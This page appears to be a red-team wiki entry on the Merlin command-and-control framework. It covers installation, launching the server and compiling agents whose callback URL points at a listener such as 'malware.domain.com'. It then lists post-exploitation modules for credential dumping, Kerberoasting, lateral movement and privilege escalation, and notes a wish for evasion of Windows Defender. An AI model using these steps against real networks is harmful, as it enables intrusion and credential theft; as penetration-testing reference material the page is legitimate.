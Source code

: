 ```yaml
---
description: 'https://github.com/Ne0nd0g/merlin'
---
```


# Merlin

## Installation

### Install GO

```text
#Download GO package from: https://golang.org/dl/
#Decompress the packe using:
tar -C /usr/local -xzf go$VERSION.$OS-$ARCH.tar.gz

#Change /etc/profile
Add ":/usr/local/go/bin" to PATH
Add "export GOPATH=$HOME/go"
Add "export GOBIN=$GOPATH/bin"

source /etc/profile
```

### Install Merlin

```text
go get https://github.com/Ne0nd0g/merlin/tree/dev #It is recommended to use the developer branch
cd $GOPATH/src/github.com/Ne0nd0g/merlin/
```

## Launch Merlin Server

```text
go run cmd/merlinserver/main.go -i
```

## Merlin Agents

You can [download precompiled agents](https://github.com/Ne0nd0g/merlin/releases)

### Compile Agents

Go to the main folder _$GOPATH/src/github.com/Ne0nd0g/merlin/_

```text
#User URL param to set the listener URL
make #Server and Agents of all
make windows #Server and Agents for Windows
make windows-agent URL=https://malware.domain.com:443/ #Agent for windows (arm, dll, linux, darwin, javascript, mips)
```

### **Manual compile agents**

```text
GOOS=windows GOARCH=amd64 go build -ldflags "-X main.url=https://10.2.0.5:443" -o agent.exe main.g
```

## Modules

**The bad news is that every module used by Merlin is downloaded from the source \(github\) and saved indisk before using it. Forge about usingwell known modules because Windows Defender will catch you!**

**SafetyKatz** --&gt; Modified Mimikatz. Dump LSASS to file and launch:sekurlsa::logonpasswords to that file  
**SharpDump** --&gt; minidump for the process ID specified \(LSASS by default\) \(Itsais that the extension of the final file is .gz but indeed it is.bin, but is agz file\)  
**SharpRoast** --&gt;Kerberoast \(doesn't work\)  
**SeatBelt** --&gt; Local Security Tests in CS \(does not work\) [https://github.com/GhostPack/Seatbelt/blob/master/Seatbelt/Program.cs](https://github.com/GhostPack/Seatbelt/blob/master/Seatbelt/Program.cs)  
**Compiler-CSharp** --&gt; Compile using csc.exe /unsafe  
**Sharp-Up** --&gt;Allchecks in C\# in powerup \(works\)  
**Inveigh** --&gt; PowerShellADIDNS/LLMNR/mDNS/NBNS spoofer and man-in-the-middle tool \(doesn't works, need to load: [https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1\](https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1\)\)  
**Invoke-InternalMonologue** --&gt; impersonates all available users and retrieves a challenge-response for each \(NTLM hash for each user\) \(bad url\)  
**Invoke-PowerThIEf** --&gt; Steal forms from IExplorer or make it execute JS or inject a DLL in that process \(doesnt work\) \(and the PS looks like doesnt work either\) [https://github.com/nettitude/Invoke-PowerThIEf/blob/master/Invoke-PowerThIEf.ps1](https://github.com/nettitude/Invoke-PowerThIEf/blob/master/Invoke-PowerThIEf.ps1)  
**LaZagneForensic** --&gt; Get browser passwords \(works but dont prints the output directory\)  
**dumpCredStore** --&gt; Win32 Credential Manager API \([https://github.com/zetlen/clortho/blob/master/CredMan.ps1\](https://github.com/zetlen/clortho/blob/master/CredMan.ps1\)\) [https://www.digitalcitizen.life/credential-manager-where-windows-stores-passwords-other-login-details](https://www.digitalcitizen.life/credential-manager-where-windows-stores-passwords-other-login-details)  
**Get-InjectedThread** --&gt; Detect classic injection in running processes \(Classic Injection \(OpenProcess, VirtualAllocEx, WriteProcessMemory, CreateRemoteThread\)\) \(doesnt works\)  
**Get-OSTokenInformation** --&gt; Get Token Info of the running processes and threads \(User, groups, privileges, owner… [https://docs.microsoft.com/es-es/windows/desktop/api/winnt/ne-winnt-\_token\_information\_class\](https://docs.microsoft.com/es-es/windows/desktop/api/winnt/ne-winnt-_token_information_class\)\)  
**Invoke-DCOM** --&gt; Execute a command \(inother computer\) via DCOM \([http://www.enigma0x3.net.\](http://www.enigma0x3.net.\)\) \([https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/\](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/\)\)  
**Invoke-DCOMPowerPointPivot** --&gt; Execute a command in othe PC abusing PowerPoint COM objects \(ADDin\)  
**Invoke-ExcelMacroPivot** --&gt; Execute a command in othe PC abusing DCOM in Excel  
**Find-ComputersWithRemoteAccessPolicies** --&gt; \(not working\) \([https://labs.mwrinfosecurity.com/blog/enumerating-remote-access-policies-through-gpo/\](https://labs.mwrinfosecurity.com/blog/enumerating-remote-access-policies-through-gpo/\)\)  
**Grouper** --&gt; It dumps all the most interesting parts of group policy and then roots around in them for exploitable stuff. \(deprecated\) Take a look at Grouper2, looks really nice  
**Invoke-WMILM** --&gt; WMI to move laterally  
**Get-GPPPassword** --&gt; Look for groups.xml, scheduledtasks.xml, services.xmland datasources.xml and returns plaintext passwords \(insidedomain\)  
**Invoke-Mimikatz** --&gt; Use mimikatz \(default dump creds\)  
**PowerUp** --&gt; [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)  
**Find-BadPrivilege** --&gt; Check the privileges of users in computers  
**Find-PotentiallyCrackableAccounts** --&gt; retrieve information about user accounts associated with SPN \(Kerberoasting\)  
**psgetsystem** --&gt; getsystem

**Didn't check persistence modules**

## Resume

I really like the feeling and the potential of the tool.  
I hope the tool will start downloading the modules from the server and integrates some kind of evasion when downloading scripts.

